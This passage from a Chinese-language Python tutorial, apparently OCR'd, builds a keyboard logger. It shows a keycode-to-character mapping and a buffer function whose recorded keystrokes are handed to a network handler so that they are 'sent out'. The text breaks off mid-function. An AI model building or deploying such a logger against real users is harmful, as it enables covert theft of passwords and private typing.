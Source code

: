 
原始的event类的属性比较少，扩展的CuskeyEvent类的status_code属性表示当前按键的状态(down按下，up释放，hold按住不放)，key属性将原始的数据转化为ascii字符。

为了将原始数据对应到ascii码表的字符，我们需要建立一个映射字典:
```
code_dict = {
        1: 'ESC', 2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8',
        10: '9', 11: '0', 14: 'backspace', 15: 'tab', 16: 'q', 17: 'w', 18: 'e',
        19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[',
        27: ']', 28: 'enter', 29: 'ctrl', 30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g',
        35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 41: '`', 42: 'shift',
        43: '\\', 44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',',
        52: '.', 53: '/', 54: 'shift', 56: 'alt', 57: 'space', 58: 'capslock', 59: 'F1',
        60: 'F2', 61: 'F3', 62: 'F4', 63: 'F5', 64: 'F6', 65: 'F7', 66: 'F8', 67: 'F9',
        68: 'F10', 69: 'numlock', 70: 'scrollock', 87: 'F11', 88: 'F12', 97: 'ctrl', 99: 'sys_Rq',
        100: 'alt', 102: 'home', 104: 'PageUp', 105: 'Left', 106: 'Right', 107: 'End',
        108: 'Down', 109: 'PageDown', 111: 'del', 125: 'Win', 126: 'Win', 127: 'compose'
    }
```

为了简化程序，我们在这里不处理F1~12、Del等按不常用按键的处理，为此我们对按键进行分类，将这类按键划入到unvalidate。而一些特殊按键，比如f5等通过is_show进行过滤，用户可自行修改该方法过滤不需要的按键。

## 2.4 字符缓冲区处理Backspace, Left, Right特殊按键

当使用键盘输入时不可避免的会出错，那么我们会执行回退(Backspace)操作,当按下Backspace按键时上一次输入需要抹除掉，Left和Right操作会调到指定的位置进行输入。所以需要一个字符缓冲区来记录用户的输入以便处理上述情况。本程序中我们使用列表结构来作为缓冲区。这里一个要注意的地方就是hook_func参数，在Python中要改变传入的参数的值，那么需要传入列表或者是字典结构，这里使用列表来传值。该函数的作用是当程序终止记录键盘输入时，确保缓冲区的内容全部被发送出去。使用闭包来避免声明全局缓冲区变量。用户可根据注释里的提示完成扩展功能。
```
def content_handler(net_work_handler, hook_func, str_cached_length=10):
    """
        input_str_content 保存键盘输入的内容,
        str_cached_length 缓冲区的长度为10K
        net_work_handler函数为处理记录文件的函数

       # TODO 当前的程序每次都需要去计算内容的长度，
       当输入的内容比较长时，是会严重影响性能的
       我已经帮你定义了content_length， 请完善char_handler函数
       使用content_length来代替len(input_str_content)
    """
    input_str_content = []
    postion = [None, ]
    content_length = [0, ]

    # hook_func 是为了保证缓冲区数据全部被发送出去
    def __hook_func():
        if input_str_content:
            net_work_handler("".join(input_str_content))
    hook_func[0] = __hook_func

    def char_handler(in_str):
        # backspace键，从缓冲区减去字符
        if in_str == 'backspace':
            if input_str_content:
                input_str_content.pop()
            # TODO content_length - 1
        elif in_str == 'Left':
            # 第一次执行left操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 2
            else:
                postion[0] = postion[0] - 1
            if postion[0] < 0:
                print u"已经到达当前缓冲区开头"
                postion[0] = 0
```